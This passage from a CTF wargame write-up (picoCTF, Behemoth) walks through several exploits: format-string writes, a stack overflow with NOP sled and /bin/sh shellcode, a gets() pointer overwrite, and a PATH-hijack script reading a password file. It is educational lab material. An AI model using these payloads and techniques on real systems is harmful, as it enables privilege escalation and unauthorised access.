 If you see, we did 5 stack pop-up by using %08x, written the value to be written at 6th position and 7th position contains the address of secret. If you further see "%08x." is of eight characters + 1 of "." or 9 bytes, used five times i.e 9*\ 5=45 bytes and 1292+45 == 1337.

* In another example below,

 .. code:: c

    #include <stdlib.h>
    #include <stdio.h>
    #include <unistd.h>

    #define BUFSIZE 256

    void greet(int length){
        char buf[BUFSIZE];
        puts("What is your name?");
        read(0, buf, length);
        printf("Hello, %s\n!", buf);
    }

    void be_nice_to_people(){
        gid_t gid = getegid();
        setresgid(gid, gid, gid);
    }

    int main(int argc, char **argv){
        int length;
        be_nice_to_people();

        puts("How long is your name?");
        scanf("%d", &length);

        if(length < BUFSIZE) //don't allow buffer overflow
            greet(length);
        else
            puts("Length was too long!");
    }

 This program tries to prevent buffer overflows by first asking for the input length. It disregards the rest of the ouput. However, the program uses scanf. If we supply -1 as the length, we can bypass the overflow check: readelf -l no\_overflow can be used to find if there's any protection on the binary. Stack is executable, Furthermore, ASLR is not enabled. This makes it easy to stick in a shellcode plus a NOP sled and return to an address on the stack

 ::

    pico1139@shell:/home/no_overflow$ (echo -1; python -c 'print "A"*268+"\xd0\xd6\xff\xff"+"\x90"*200+" "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"'; cat) | ./no_overflow
    How long is your name?
    What is your name?
    Hello, AAAAAAAAAAAAAAAAAAAAAA...snip...

    id
    uid=11066(pico1139) gid=1007(no_overflow) groups=1017(picogroup)
    cat flag.txt
    what_is_your_sign

* In an another example where stack is not executable, If you read the code, you would find, we need to change the file\_name from not\_the\_flag.txt to flag.txt. In this example, they provided the address of the string "not\_the\_flag.txt" as 0x08048777. By putting a break point in puts in gdb and looking for the address of flag.txt.

 ::

    (gdb) br *puts
    Breakpoint 1 at 0x8048460
    (gdb) run
    Starting program: /home/what_the_flag/what_the_flag 

    Breakpoint 1, 0xf7e81ee0 in puts () from /lib/i386-linux-gnu/libc.so.6
    (gdb) x/s 0x08048777
    0x8048777:  "not_the_flag.txt"
    (gdb) x/s 0x08048778
    0x8048778:  "ot_the_flag.txt"
    (gdb) x/s 0x08048770
    0x8048770:  "le: %s"
    (gdb) x/s 0x0804877C
    0x804877c:  "he_flag.txt"
    (gdb) x/s 0x0804877D
    0x804877d:  "e_flag.txt"
    (gdb) x/s 0x0804877E
    0x804877e:  "_flag.txt"
    (gdb) x/s 0x0804877F
    0x804877f:  "flag.txt"

 .. code:: c

    #include <stdlib.h>
    #include <stdio.h>

    struct message_data{
        char message[128];
        char password[16];
        char *file_name;
    };

    void read_file(char *buf, char *file_path, size_t len){
        FILE *file;
        if(file= fopen(file_path, "r")){
            fgets(buf, len, file);
            fclose(file);
        }else{
            sprintf(buf, "Cannot read file: %s", file_path);
        }
    }

    int main(int argc, char **argv){
        struct message_data data;
        data.file_name = "not_the_flag.txt";

        puts("Enter your password too see the message:");
        gets(data.password);

        if(!strcmp(data.password, "1337_P455W0RD")){
            read_file(data.message, data.file_name, sizeof(data.message));
            puts(data.message);
        }else{
            puts("Incorrect password!");
        }

        return 0;
    }

 So we’ll ovewrite the file pointer with 0x804877f to make it read flag.txt. From gets()’s manual: gets() reads a line from stdin into the buffer pointed to by s until either a terminating newline or EOF, which it replaces with a null byte (‘\\0’). No check for buffer overrun is performed (see BUGS below). So by using the following input, we can overwrite the file pointer and still provide the correct password:

 ::

    1337_P455W0RD
    1337_P455W0RD\0aa\x7f\x87\x04\x08
    aa\x7f\x87\x04\x08

 We use this in the command line to get the flag

 ::

    pico83515@shell:/home/what_the_flag$ printf "1337_P455W0RD\0bb\x7f\x87\x04\x08" | ./what_the_flag
    Enter your password too see the message:
    Congratulations! Here is the flag: who_needs_%eip

    pico83515@shell:/home/what_the_flag$

Miscellanous Examples
**********************

Let's see some miscellanous examples away from Buffer/Format Vulnerabilities.

* So, we have a binary which when executed gives 

 ::

    behemoth2@melinda:/behemoth$ ./behemoth2 
    touch: cannot touch '13373': Permission denied

 Let's see what ltrace provides us

 ::

    behemoth2@melinda:/behemoth$ ltrace ./behemoth2 
    __libc_start_main(0x804856d, 1, 0xffffd794, 0x8048640 <unfinished ...>
    getpid()                                                                                                               = 14118
    sprintf("touch 14118", "touch %d", 14118)                                                                              = 11
    __lxstat(3, "14118", 0xffffd688)                                                                                       = -1
    unlink("14118")                                                                                                        = -1
    system("touch 14118"touch: cannot touch '14118': Permission denied
     <no return ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                                                                                 = 256
    sleep(2000

 Let's see a truncated output of disassemble main, if we see getpid gets the binary pid, sprintf something in some buffer, lstat provides thefile status, unlink -call the unlink function to remove the specified file.

 ::

    (gdb) disassemble main 
    Dump of assembler code for function main:
       0x08048588 <+27>:    call   0x8048410 <getpid@plt>
       0x080485b3 <+70>:    call   0x8048450 <sprintf@plt>
       0x080485c7 <+90>:    call   0x80486c0 <lstat>
       0x080485df <+114>:   call   0x8048400 <unlink@plt>
       0x080485eb <+126>:   call   0x8048420 <system@plt>
       0x080485f7 <+138>:   call   0x80483e0 <sleep@plt>
       0x08048616 <+169>:   call   0x8048420 <system@plt>
       0x08048635 <+200>:   leave  
       0x08048636 <+201>:   ret 

 If you check the ltrace output

 ::

    system("touch 14118"touch: cannot touch '14118': Permission denied

 touch is being called without an absolute path, so we can take advantage of that. First we’ll create our own touch script that prints out the contents /etc/behemoth\_pass/behemoth3. Next, the PATH variable needs to be updated so that it looks at the current working directory first to ensure that our touch script is executed and not the actual touch program. PATH=/tmp:$PATH, you set /tmp to your primary location to search for binaries and the like... so if you create a file in /tmp/ called touch, it'll actually execute that instead of /usr/bin/touch

 ::

   behemoth2@melinda:/tmp/rahul2$ cat touch 
   cat /etc/behemoth_pass/behemoth3
   behemoth2@melinda:/tmp/rahul2$ history | grep PATH
   19  history | grep PATH
   behemoth2@melinda:/tmp/rahul2$ PATH=/tmp/rahul2:$PATH /behemoth/behemoth2 
   **********
